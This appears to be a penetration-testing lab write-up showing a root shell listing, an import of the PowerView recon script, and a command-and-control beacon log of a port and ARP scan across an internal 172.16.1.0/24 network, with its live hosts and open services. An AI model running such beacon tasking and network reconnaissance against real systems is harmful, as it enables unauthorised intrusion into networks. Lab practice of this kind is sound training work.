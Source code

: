 ```powershell
[root💀~/offshore/ms01] [10.10.14.39] [2023-10-05 14:40:12] 
 └─╼ # ls
47255.py  all_powerful_all_knowing_flag.txt
```



Domain Recon

```powershell
powershell-import ~/offshore/ms01/powerview.ps1
```

172.16.1.0/24  Network
```powershell
[10/05 15:13:52] beacon> portscan 172.16.1.1-172.16.1.254 1-1024,5000-6000 arp 1024
[10/06 11:37:58] [*] Tasked beacon to scan ports 1-1024,5000-6000 on 172.16.1.1-172.16.1.254
[10/06 11:38:01] [+] host called home, sent: 93797 bytes
[10/06 11:38:07] [+] received output:
(ARP) Target '172.16.1.30' is alive. 00-50-56-B9-BC-AB
(ARP) Target '172.16.1.26' is alive. 00-50-56-B9-C0-A3
(ARP) Target '172.16.1.24' is alive. 00-50-56-B9-02-5E
(ARP) Target '172.16.1.23' is alive. 00-50-56-B9-8B-1C
(ARP) Target '172.16.1.22' is alive. 00-50-56-B9-A3-9E
(ARP) Target '172.16.1.15' is alive. 00-50-56-B9-6D-E1
(ARP) Target '172.16.1.1' is alive. 00-50-56-B9-52-2B
(ARP) Target '172.16.1.5' is alive. 00-50-56-B9-28-BC
(ARP) Target '172.16.1.36' is alive. 00-50-56-B9-44-80

[10/06 11:38:13] [+] received output:
(ARP) Target '172.16.1.101' is alive. 00-50-56-B9-E0-4C

[10/06 11:38:23] [+] received output:
(ARP) Target '172.16.1.200' is alive. 00-50-56-B9-BE-C3
(ARP) Target '172.16.1.201' is alive. 00-50-56-B9-5F-A3

[10/06 11:38:28] [+] received output:
(ARP) Target '172.16.1.220' is alive. 00-50-56-B9-33-37

[10/06 11:38:33] [+] received output:
172.16.1.220:5985

[10/06 11:38:39] [+] received output:
172.16.1.220:636
172.16.1.220:593
172.16.1.220:464
172.16.1.220:389
172.16.1.220:139
172.16.1.220:135
172.16.1.220:88
172.16.1.220:53
172.16.1.201:5985
172.16.1.201:5900
172.16.1.201:5800

[10/06 11:38:44] [+] received output:
172.16.1.201:5040

[10/06 11:38:49] [+] received output:
172.16.1.201:139
172.16.1.201:135
172.16.1.201:80
172.16.1.200:5985

[10/06 11:38:54] [+] received output:
172.16.1.201:21 (220 Microsoft FTP Service)
```